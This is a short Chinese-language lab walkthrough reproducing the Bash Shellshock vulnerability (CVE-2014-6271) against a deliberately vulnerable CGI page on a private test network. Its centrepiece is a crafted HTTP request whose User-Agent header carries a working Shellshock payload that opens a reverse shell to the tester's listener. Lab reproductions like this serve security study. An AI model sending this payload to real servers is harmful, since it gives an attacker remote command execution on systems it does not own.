

# Bash Shellshock 破壳漏洞

> 漏洞说明

Shellshock 漏洞 ([CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)) 是 Linux 上 Bash 中的一个严重漏洞。

根据[RedHat](https://access.redhat.com/security/cve/CVE-2014-6271)的说法，“在 Bash（又名 bourne-again shell）评估某些特制环境变量的方式中发现了一个缺陷。攻击者可以利用此漏洞覆盖或绕过环境限制来执行 shell 命令。某些服务和应用程序允许未经身份验证的远程攻击者提供环境变量，从而允许他们利用此问题。”


> 前提条件

版本：bash <= 4.3


> 利用工具


> 漏洞复现

服务启动后，有两个页面http://192.168.40.77:8080/victim.cgi和http://192.168.40.77:8080/safe.cgi。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

访问http://192.168.40.77:8080/victim.cgi


查看日志可知由于靶场所给权限不足


将victim.cgi和safe.cgi赋予755权限


此时可以正常访问


本地开启监听



访问http://192.168.40.77:8080/victim.cgi抓包，修改请求包发送

```http
GET http://192.168.40.77:8080/victim.cgi HTTP/1.1
Host: 192.168.40.77:8080
accept: */*
User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/192.168.40.1/1234 0>&1;
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

成功getshell

